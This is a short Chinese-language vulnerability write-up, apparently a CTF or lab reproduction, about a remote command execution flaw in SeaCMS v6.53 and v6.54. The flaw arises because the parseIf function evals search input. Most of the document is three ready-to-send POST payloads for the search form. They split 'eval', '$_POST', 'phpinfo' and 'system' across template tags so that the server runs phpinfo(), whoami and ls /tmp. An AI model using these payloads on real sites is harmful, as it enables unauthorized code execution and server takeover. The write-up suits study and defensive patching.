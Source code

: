 # seacms-v6.53 命令执行漏洞 by [Aa1141415869](https://github.com/Aa1141415869)

## 一、漏洞描述

echoSearchPage 函数中的 content 变量传给了 parself 函数，跟踪代码，找到 ./include/main.class.php，可以看到 parseIf 函数会将 content 内容 eval  执行，造成命令执行。

![](./_v_images/20200527182210256_9173.png)


## 二、影响版本

 seacms v6.53、seacmsv6.54 版本

## 三、复现过程

### 1.抓取搜索框数据包将原本内容换为网上 Poc 的内容

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

![](./_v_images/20200527184837945_27168.png)


![](./_v_images/20200527185111991_27068.png)


### 2.将数据包放过 查看返回结果 可见写入 9[] 的代码被执行

![](./_v_images/20200527185229499_30175.png)


### 3.进一步利用，可以执行系统命令

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");
```

![](./_v_images/20200527185518860_26945.png)



### 4.获取 Flag

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls /tmp");
```

![](./_v_images/20200527190041412_23974.png)
